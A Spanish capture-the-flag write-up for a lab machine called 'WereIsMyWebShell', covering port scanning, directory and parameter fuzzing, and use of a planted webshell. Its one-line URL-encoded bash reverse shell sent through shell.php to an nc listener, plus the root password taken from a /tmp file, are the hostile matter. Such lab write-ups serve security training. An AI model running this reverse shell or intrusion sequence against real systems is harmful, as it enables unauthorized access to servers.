






# Máquina WereIsMyWebShell

---

Dificultad -> Facil

---

Primero realizamos un nmap para ver puertos y servicios abiertos

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Solo encontramos el puerto 80 asi que accedo desde el navegador



Se puede ver una simple pagina web sobre una academia de ingles pero si leemos todo, abajo del todo pone que guarda un secreto en /tmp informacion que nos puede servir en un futuro



No encuentro nada más asi que procedo ha hacer fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]
/warning.html         (Status: 200) [Size: 315]
/server-status        (Status: 403) [Size: 275]
```

Encuentro /warning.html y /shell.php, si entro a warning, sale un texto que dice que la web ya ha sido atacada y que la webshell tiene un parametro desconocido 



Para encontrar el parametro que falta en shell.php, utilizo ffuf filtrando por palabras y me encuentra el parametro parameter

```shell
ffuf -u http://172.17.0.2/shell.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 0
```

Accedo a a shell.php con el parametro y en efecto es una webshell



Le introduzco en el parametro una reverse shell codificada mientras escucho desde mi maquina

http://172.17.0.2/shell.php?parameter=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F4444%200%3E%261%22

```shell
nc -lvnp 4444
```

Una vez dentro, recuerdo el secreto de /tmp asi que me dirijo ahi y encuentro un secreto.txt



Al mirar su contenido encuentro la contrasñea de root con la que acabo consiguiendo root en esta máquina.


